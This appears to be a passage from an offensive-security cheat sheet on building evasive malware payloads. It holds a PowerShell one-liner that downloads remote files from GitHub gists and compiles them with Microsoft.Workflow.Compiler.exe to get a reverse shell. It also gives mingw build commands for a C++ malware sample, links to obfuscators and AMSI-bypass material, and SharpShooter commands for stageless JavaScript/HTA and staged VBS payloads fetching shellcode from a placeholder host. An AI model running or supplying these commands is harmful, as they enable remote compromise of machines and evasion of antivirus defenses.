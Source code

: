 ```csharp
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```
```

[[https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f]]

C# obfuscators list: [[https://github.com/NotPrab/.NET-Obfuscator|https://github.com/NotPrab/.NET-Obfuscator]]

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
```
- [[https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp|https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp]]
- [[https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/|https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/]]
- [[https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf|https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf]]
- [[ps://github.com/l0ss/Group|https://github.com/l0ss/Grouper2]]
- [[http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html|http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html]]
- [[http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/|http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/]]

### Using python for build injectors example:

- [[https://github.com/cocomelonc/peekaboo|https://github.com/cocomelonc/peekaboo]]

### Other tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

```